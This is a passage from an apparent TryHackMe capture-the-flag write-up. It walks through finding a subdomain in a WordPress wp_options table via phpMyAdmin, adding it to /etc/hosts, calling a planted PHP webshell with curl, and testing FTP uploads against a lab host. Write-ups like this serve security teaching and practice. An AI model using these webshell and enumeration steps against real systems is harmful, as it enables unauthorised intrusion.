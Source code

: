 Still nope...

Again. Take a step back.

**After fumbling around in PHPMyAdmin and based on my hacking WordPress experiences, the subdomain can be found in table `wp_options`:**
```sql
use phpmyadmin1;
SELECT * FROM wp_options;
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131143716.png)

We found a new subdomain!

**Let's add that to `/etc/hosts`:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:24:18(HKT)]
└> sudo vi /etc/hosts
10.10.152.107 adana.thm subdomain.adana.thm
```

**`subdomain`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131143935.png)

Nice! We found another WordPress!

**Let's try to access our PHP webshell again:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:40:35(HKT)]
└> curl http://subdomain.adana.thm/webshell.php --get --data-urlencode "cmd=id"
```

It does exist, but it seems like we don't have code execution??

Hmm... Let's try to upload a text file via FTP, and see what wil happened when we access it:

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:41:22(HKT)]
└> echo 'test' > test.txt

ftp> put test.txt

┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:42:08(HKT)]
└> curl http://subdomain.adana.thm/test.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at subdomain.adana.thm Port 80</address>
</body></html>
```

